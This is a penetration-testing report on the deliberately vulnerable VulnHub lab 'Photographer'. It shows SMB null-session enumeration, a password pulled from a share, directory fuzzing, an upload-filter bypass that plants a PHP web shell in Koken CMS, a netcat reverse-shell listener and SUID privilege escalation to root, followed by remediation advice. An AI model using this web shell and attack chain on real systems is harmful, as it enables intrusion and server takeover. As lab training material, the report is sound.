# Penetration Testing Report – Photographer

## Target Information

| Field | Details |
|---|---|
| Machine Description | A deliberately vulnerable lab machine for practicing web app exploits, privilege escalation, and post-exploitation to gain user and root access. |
| Target IP | `192.168.0.137` |
| Vulnerability Name | Information Disclosure via SMB Share, Authenticated File Upload → RCE in Koken CMS, Misconfigured SUID Binary → Privilege Escalation |
| Port / Service | `TCP 8000 / HTTP` |
| Severity | High (7.4) |
| Attack Vector | `CVSS:3.0/AV:L/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H` |

---

# Proof of Concept (PoC)

## Step 1 – Discover Target IP

Use Nmap to identify the target machine.

```bash
nmap -sn 192.168.0.0/24
```

### Proof Image



---

## Step 2 – Scan Open Ports and Services

```bash
nmap -p- -sV 192.168.0.137 --open
```

### Proof Image



---

## Step 3 – Enumerate SMB Shares

Using `enum4linux`, an SMB share was discovered.

```bash
enum4linux 192.168.0.137
```

### Proof Image



---

## Step 4 – Null Session Login

A null-session login was successful against the Samba share.

### Proof Image



---

## Step 5 – Extract Credentials

The `mailsent.txt` file was downloaded and revealed:
- email credentials
- potential password: `babygirl`

### Proof Image



---

## Step 6 – Discover Admin Panel Using Wfuzz

```bash
wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://192.168.0.137:8000/FUZZ
```

### Proof Image



---

## Step 7 – Access Admin Page

An admin login panel was discovered on port `8000`.

### Proof Image



---

## Step 8 – Login with Discovered Credentials

Credentials found in Step 5 were used to authenticate successfully.

### Proof Image



---

## Step 9 – Create Reverse Shell Payload

A reverse shell payload was created with a fake `.jpg` extension.

### Example Payload

```php
<?php system($_GET['cmd']); ?>
```

### Proof Image



---

## Step 10 – Upload Payload via Burp Suite

The upload request was intercepted using Burp Suite and the file extension was modified to bypass upload restrictions.

### Proof Image



---

## Step 11 – Remove Fake Extension

The appended `.jpg` extension was removed from multiple locations in the intercepted request.

### Proof Image



---

## Step 12 – Forward Request to Koken Server

The manipulated request was forwarded successfully.

### Proof Image



---

## Step 13 – Start Netcat Listener

```bash
nc -lvnp 4444
```

### Proof Image



---

## Step 14 – Execute Uploaded Payload

The uploaded payload was accessed from the Koken server to trigger execution.

### Proof Image



---

## Step 15 – Gain Reverse Shell

A shell connection was received on the Netcat listener.

### Proof Image



---

## Step 16 – Enumerate SUID Binaries

A SUID-enabled binary (`php7.2`) was discovered during privilege escalation enumeration.

```bash
find / -perm -4000 2>/dev/null
```

### Proof Image



---

## Step 17 – Privilege Escalation to Root

The vulnerable SUID binary was abused to obtain root privileges.

### Proof Image



### Proof Image



---

# Remediation

- Remove sensitive files and credentials from SMB shares.
- Disable anonymous/null-session SMB access.
- Patch or replace vulnerable Koken CMS installations.
- Restrict upload functionality to safe file types only.
- Store uploaded files outside the web root.
- Remove unnecessary SUID permissions.
- Regularly audit privileged binaries.
- Update all system packages and services.

---

# Impact

- Exposure of sensitive credentials via SMB shares.
- Remote Code Execution through malicious file uploads.
- Full compromise of the web server.
- Privilege escalation to root access.
- Potential persistence, malware deployment, and lateral movement.

---

# References

- https://portswigger.net/web-security/file-upload
- https://www.elastic.co/guide/en/security/8.19/privilege-escalation-via-suid-sgid.html
- https://www.vulnhub.com/entry/photographer-1,519/
